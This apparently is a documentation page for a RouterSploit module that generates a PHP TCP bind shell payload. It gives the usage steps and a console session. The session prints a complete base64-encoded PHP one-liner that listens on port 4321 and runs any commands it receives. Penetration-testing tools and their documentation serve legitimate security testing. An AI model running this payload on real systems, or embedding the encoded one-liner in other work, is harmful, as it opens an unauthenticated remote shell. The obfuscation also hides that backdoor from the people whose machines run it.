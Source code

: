 ## Description

Module generates payload that creates interactive tcp bind shell by using php one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/php_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates php tcp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/php_bind_tcp
rsf (PHP Bind TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (PHP Bind TCP One-Liner) > run
[*] Running module...
[*] Generating payload
php -r "eval(base64_decode('JHM9c29ja2V0X2NyZWF0ZShBRl9JTkVULFNPQ0tfU1RSRUFNLFNPTF9UQ1ApO3NvY2tldF9iaW5kKCRzLCIwLjAuMC4wIiw0MzIxKTtzb2NrZXRfbGlzdGVuKCRzLDEpOyRjbD1zb2NrZXRfYWNjZXB0KCRzKTt3aGlsZSgxKXtpZighc29ja2V0X3dyaXRlKCRjbCwiJCAiLDIpKWV4aXQ7JGluPXNvY2tldF9yZWFkKCRjbCwxMDApOyRjbWQ9cG9wZW4oIiRpbiIsInIiKTt3aGlsZSghZmVvZigkY21kKSl7JG09ZmdldGMoJGNtZCk7c29ja2V0X3dyaXRlKCRjbCwkbSxzdHJsZW4oJG0pKTt9fQ=='));"
```
